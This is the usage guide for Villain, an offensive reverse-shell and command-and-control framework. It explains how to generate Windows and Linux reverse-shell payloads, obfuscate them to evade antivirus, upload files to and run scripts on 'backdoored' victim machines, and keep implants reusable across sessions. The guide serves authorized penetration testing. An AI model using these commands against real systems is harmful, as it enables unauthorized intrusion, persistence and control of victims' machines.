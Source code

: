 # Usage Guide
:warning: Villain was explicitly developed and tested on **kali linux**.  
:warning: This guide is a work in progress currently describing key features. Check out Villain's introduction on youtube for more info.

[2022-11-30] [John Hammond](https://github.com/JohnHammond) showcased the tool in this incredible video -> [youtube.com/watch?v=pTUggbSCqA0](https://www.youtube.com/watch?v=pTUggbSCqA0)  
[2023-03-30] Latest release demo, made by me -> [youtube.com/watch?v=NqZEmBsLCvQ](https://www.youtube.com/watch?v=HR1KM8wrSV8)  

**Disclaimer**: Using this tool against hosts that you do not have explicit permission to test is illegal. You are responsible for any trouble you may cause by using this tool.

## Table of contents
1. [News](#News)
2. [Generate Reverse Shell Commands](#Generate-Reverse-Shell-Commands)
3. [Connect With Sibling Server](#Connect-With-Sibling-Server)
4. [Shell](#shell)
5. [Upload Command](#upload)
6. [Conptyshell](#Conptyshell)
7. [Exec](#Exec)
8. [Flee](#Flee)
9. [Purge](#Purge)
10. [Chat with Sibling Servers](#Chat-with-Sibling-Servers)
11. [Session Defender](#Session-Defender)

## News
### 2023-08-07 Update log
- A new update mechanism was introduced that compares file signatures from the main branch of the project's repo against local installation file signatures and proceeds to upgrade. The option `--skip-update` was also added.

### 2023-08-03 Update log
- HoaxShell implants are now reusable as long as they were generated by the Villain instance you are trying to connect back to from the victim (Legit session data is saved on disk and is loaded into memory every time you start Villain on your machine). Villain will also re-establish a session if it receives beacons from it (e.g., because the payload is still running on a victim from a past session).
- You can use the new prompt command `flee` to exit Villain without terminating active sessions. That way, next time you start it, if there are alive beacons from victims, sessions will be re-established.
- The `--insecure` option was added which will allow sibling servers to connect to your instance without approval.
- Added a filter for random socket connections to Villain's TCP multi-listener that should prevent establishing junk sessions.
- Fixed an issue regarding the sessions table that could break because of junk TCP sessions.
- Added the `purge` prompt command to delete all session related metadata stored on disk.

### 2023-03-31 Update log
- The Payload Generator class was redesigned to work by dynamically engaging payload templates with a standard structure. This makes payload generation much easier and allows users to edit the default payload templates or add their own, according to their needs & tactics. As you'll notice, most of the default templates I've added for both Windows and Linux are designed to start as new processes.
- The stability and general functionality of the pseudo-shell prompt ("shell" command) has been significantly improved.
- The "upload" and "conptyshell" commands were added.
- A new chat feature was added (you can broadcast messages to all siblings by starting a command with "#").
- The "exec" command is also improved but still kind of unstable. Someday it's gonna be doing wonders. Have a little faith.


## Generate Reverse Shell Commands
Use the `generate` prompt command to generate payloads for Windows / Linux machines. 
In the latest Villain release, this function was redesigned to use payload templates (files). In `Core/payload_templates/<OS>/<HANDLER>/` you can find these templates, edit them, make your own, etc. Ultimately, you should replace the predefined Windows reverse shell commands with obfuscated versions. That way you can create a personalized instance of Villain and deal with AV evasion in a more productive and efficient way. Here's how 📽️ -> [youtube.com/watch?v=grSBdZdUya0](https://www.youtube.com/watch?v=grSBdZdUya0)  

Main logic:
```
generate payload=<OS_TYPE/HANDLER/PAYLOAD_TEMPLATE> lhost=<IP or INTERFACE> [ obfuscate encode ]
```

Usage examples:
```
generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode
generate payload=linux/hoaxshell/sh_curl lhost=eth0
```

- The ENCODE and OBFUSCATE keywords are enabled for certain templates and can be used during payload generation. 
- For info on a particular template, use "generate" with PAYLOAD being the only provided argument.
- To catch HoaxShell https-based reverse shells you need to start Villain with SSL.
- Ultimately, one should edit the templates and add obfuscated versions of the commands for AV 
  evasion.

⚡TCP socket based shells (netcat) are more stable and reliable than HoaxShell.
⚠️HoaxShell payloads are not reusable (will work only once). I will probably change that in the future.

Use the prompt commands `backdoors` and `sessions` to list info about your active shell sessions.

## Connect With Sibling Server
Use the `connect` prompt command to connect and share your shell sessions with another machine running Villain. 
```
connect <IP> <TEAM SERVER PORT>
```
By default, the Core server port is `65001` (you can change that with `-p` when starting Villain).

## The shell Command
Use the `shell` prompt command to start an interactive pseudo-shell for a shell session. The effectiveness of the pseudo shell is going to vary depending on the quality and stability of the shell session. Again, you should prefer TCP socket based shells as they will always be more stable than HoaxShell.
```
shell <SESSION ID or ALIAS>
```
Press Ctrl + C or type `exit` to return to the main Villain prompt.

## Upload
Use the `upload` prompt command to transfer a file from your system to a backdoored machine. The file will be http requested automatically from the Http File Smuggler (running by default on port 8888). The feature works regardless if the session is owned by you or a sibling server. You can run the command from Villain's main prompt as well as the pseudo shell terminal.

From the main prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH> <SESSION ID or ALIAS>
```

From an active pseudo shell prompt:
```
upload <LOCAL_FILE_PATH> <REMOTE_FILE_PATH>
```

## Conptyshell
Use the `conptyshell` prompt command to automatically slap `Invoke-ConPtyShell.ps1` against a shell session. A new terminal window with netcat listening will pop up (you need to have gnome-terminal installed) and the script will be executed on the target as a new process, meaning you get a fully interactive shell AND you get to keep your backdoor. Currently works only for powershell.exe backdoors.
Because I love Invoke-ConPtyShell.

Usage: 
```
conptyshell <IP or INTERFACE> <PORT> <SESSION ID or ALIAS>
```

## Exec
Use the `exec` prompt command to execute a **quoted command** or **script from your file system** against a session. Files are executed by being http requested from the Http File Smuggler. Be carefull! The script you execute should much the shell session type (e.g., a PowerShell script script should be executed against a powershell.exe session, etc).  

Usage: 
```
exec </path/to/local/file> <SESSION ID or ALIAS>
exec 'net user;Get-Date' <SESSION ID or ALIAS>
```

## Flee
Use the `flee` prompt command to exit Villain without terminating any active sessions. If you start Villain again later and there are still victim machines sending HoaxShell beacons, the sessions will be re-established automatically.  

## Purge
Villain automatically stores information regarding generated implants and loads them in memory every time it starts. This way, HoaxShell generated implants become reusable and it is possible to re-establish older sessions, assuming the payload is still running on the victim(s). Use the `purge` prompt command to delete all session related metadata. It does not affect any active sessions you may have.

## Chat with Sibling Servers
Commands starting with "#" are interpreted as messages and will be broadcasted to all connected Sibling Servers.

## Session Defender
Villain has a function that inspects user issued shell commands for input that may cause a backdoor shell session to hang (e.g., unclosed single/double quotes or backticks, commands that may start a new interactive session within the current shell and more). Use the `cmdinspector` command to turn that feature on/off.  

Usage: 
```
cmdinspector <ON/OFF>
```

